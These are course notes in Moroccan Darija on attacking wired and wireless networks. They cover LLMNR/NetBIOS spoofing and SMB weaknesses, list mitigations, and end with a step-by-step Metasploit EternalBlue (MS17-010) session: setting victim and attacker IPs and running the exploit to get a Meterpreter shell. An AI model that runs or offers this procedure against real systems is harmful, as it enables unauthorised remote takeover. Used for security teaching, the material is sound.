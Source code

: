 # Exploiting Wired and Wireless Networks

### Achno ghadi nt3almo man had lmodule 

- kifach nstaghlo tagharat li 3adna fchabaka dyalna kangolo lihom `network vulnerabilities`
- Tagharat li kayna fal chabak lasilkiya `Wi-Fi`
- 7olol wa toro9 bach ta7mi chabaka dyalk man had hajamat `mitigations`

### Man nasa2i& 
dir lab fhad tools f kali-linux
- Aircrack-ng bah attacke lwifi
- Wireshark bach ndiro ta7lil les packets
- Nmap bach ndiro wahd lfa7s lchabaka
- bettercap wa responder bach ndir hajamat 3la dakhil chabaka

## Windows Name Resolution and SMB Attacks

Name resolution ya3ni kifach nidam kayt3araf 3la 3anawin bal asma2 wa y7awlhom l IP kaynin bzaf dyal protocol li kaysta3mlo bach yt7awal ism dyal jihaz aw server l ip

- DNS Domain Name System
- NetBios kaykhdm 3la port UDP 137
- LLMNR Link-local Multicast Name Resoluion
-> kol wa7d man had protocol fihom tagharat momkin hacker ystaghlhom bach idir hajamat 3la chabaka
  bhal `SMB attacks`
### Chno howa NetBIOS w LLMNR 

had joj protocolat khdamin fal windows kay3awno ljihaz y3raf chkon kayn m3ah freseau 

- NetBIOS : protocol 9dim kaykhdam bal ism dyal ljihaz bach yl9a ip dyalo
- LLMNR : chabih l DNS walkin khdam ghir dakhil chabaka lma7aliya LAN kay3an ajhiza t3raf 3la ba3dyathom
-> na9dar ka attacker nji nchaghal adat responder nzwar ljawab hada kansmaywh `LLMNR spoofing` wa NetBIOS poisoning

#### adwat lin9dar nkhadmo fb7al had chabakat
1. Responder
2. NBNSpoof
3. Metasploit
4. Pupy

#### chno ndir bach na7mi rasi 
1. nsado LLMNR w NetBIOS man i3didat dyal windows
2. ndir 9awanin f firewall bach na7dar had protocol ila makanoch darorin
3. nra9b `Registry` dyal windows
- Lmifta7
   HKLM\Software\Policies\Microsoft\Windows NT\DNSClient \
- L9ima EnableMulticast = 0  ya3ni LLMNR masdod
#### 3lach SMB khatar
SMB fih bzaf dyal les failles de sécurité. Kayn hacker li y9der ykhdem exploit men hadchi w ydir :
1. accès l-PC dyalek bla password
2. ynzel malware
3. ychoufr fichiers dyalek w ytalab menk flous (ransomware)
#### chno hiya Searchsploit 
wahd lmaw9i3 fih jami3 tagharat smito `Exploit-DB`
ach tb7at fkali linux dir
```
searchsploit smb
```
W kaybda yb9a yb9a yaffichi lik liste dyal les exploits li 3andha 3la9a b SMB.

#### chno hiya EthernalBlue
hiya wahd taghra khatira bzaf kant tsarbat NSA (wa7ed l-agence Americaine) ou Shadow Brokers homa sar9ouha w 3tawha public.
- Tsta3mlat f virus kbira b7al `WannaCry` w  `Nyetya`
- Tkhalli l-hacker ydir accès l-PC dyalek remotely w ycontrolih.

```
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-
                                             framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only 
                                             affects Windows Server 2008 R2, Windows 7, Windows Embedded 
                                             Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
                                             Only affects Windows Server 2008 R2, Windows 7, Windows Embedded 
                                             Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows 
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target 
                                             machines.
<output omitted for brevity>
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.1.1.2
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.66.6
msf exploit(ms17_010_eternalblue) > exploit
```
1. use exploit/windows/smb/ms17_010_eternalblue
⟶ Hna kat9oul l-Metasploit: “ana bghit nsta3ml exploit dyal SMB li fih thaghrat MS17-010”.
2. show options
⟶ Kataffichi options li khas t3ammar:

- RHOSTS: ip dyal victime (waajib)

- RPORT: huwa port 445 dyal SMB (already set)

- LHOST: ip dyalek nta li ghat tsift lih session (waajib)

- SMBDomain, SMBUser, SMBPass: optional ila bghiti dir auth

- VERIFY_ARCH / VERIFY_TARGET: kaychouf wach target compatible

3. set RHOST 10.1.1.2
⟶ Katdir set RHOST m3a l-IP dyal l-PC li bghiti tattacka.
4. set LHOST 10.10.66.6
⟶ Katdir set LHOST m3a l-IP dyalek nta (attaquant) bash session trja3 lik.
5. exploit
⟶ Kat9oul l-Metasploit ibda l-attack.
Ila koulchi mzyan, ghadi t7ell lik Meterpreter session o t9der tdir control 3la l-PC dyal victime.



